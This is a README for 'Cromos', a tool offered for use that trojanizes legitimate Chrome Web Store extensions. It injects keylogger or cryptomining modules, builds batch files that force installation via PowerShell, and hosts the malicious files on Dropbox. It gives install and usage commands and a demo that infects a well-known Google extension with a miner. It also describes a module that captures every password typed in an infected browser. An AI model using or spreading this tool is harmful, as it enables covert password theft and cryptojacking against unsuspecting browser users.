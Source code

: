 # Cromos 

Cromos is a tool for downloading legitimate extensions of the Chrome Web Store and inject codes in the background of the application and more cromos create executable files to force installation via <strong>PowerShell</strong> for example, and also upload files to dropbox to host the malicious files.

  - Download extension
  - Injections
  - Upload files on dropbox
  - Windows infection
  
### Group Policy Object (GPO) 
Chrome allows you to add extensions using Windows
Group Policy Object (GPO) if you need to force installation on multiple machines just follow the steps in the <a href="https://docs.google.com/document/d/1iu6I0MhyrvyS5h5re5ai8RSVO2sYx2gWI4Zk4Tp6fgc"> Chrome Deployment Guide </a> 
then modify the original extension with few modifications you can publish your extension in the Chrome Web Store requires to pay $5.

### Support
If you chose to generate a batch file to force installation the script in powershell that will be downloaded is compatible Windows, 7, 8 10 with versions of powershell >= 3.0

  
  ### Demo
  This is a demonstration of the tool at work in this examples I'm downloading a famous Google extension called G Suite Training on Google Chrome Web Store and injecting a mining module.
  
  
<a href="https://asciinema.org/a/2kLKxkIkxXcN7oyzVq1ywndKt?autoplay=1"><img src="https://asciinema.org/a/2kLKxkIkxXcN7oyzVq1ywndKt.png"/></a>
  
  ### Installation
  
```
$ cd $HOME/
$ git clone https://github.com/fbctf/cromos
$ sudo chmod -R 777 cromos/
$ cd cromos && python setup.py
```
 ### Usage
 ##### Downloading the extension
 ```
Usage: python cromos.py --extension {id}
 ```
 ##### Downloading the extension and loading module
 
 ```
Usage: python cromos.py --extension {id} --load {currency/keylogger}
```
 ##### Build a batch file and upload the files in dropbox
 
 ```
 Usage: python cromos.py --extension {id} --build {bat} --token {dropboxToken}
 ```

 
 
### Modules
You can also inject some predefined modules in the background as <strong>keylogger</strong>, <strong>virtual currency</strong>.

Module | Description
--------|------------
modules/keylogger | This module captures all the passwords you type in an infected browser over https or not.
modules/currency | This module allows you to mine virtual coins using the coinhive API, you just need to have an account.

## Donations
* XMR: `49m12JEEC6HPCHkLMX5QL4SrDQdKwh6eb4Muu8Z9CwA9MwemhzFQ3VcgHwyuR73rC22WCymTUyep7DVrfN3GPt5JBCekPrR `

## Contacts
* fbctf@riseup.net
* [twitter](https://www.twitter.com/fbctf)
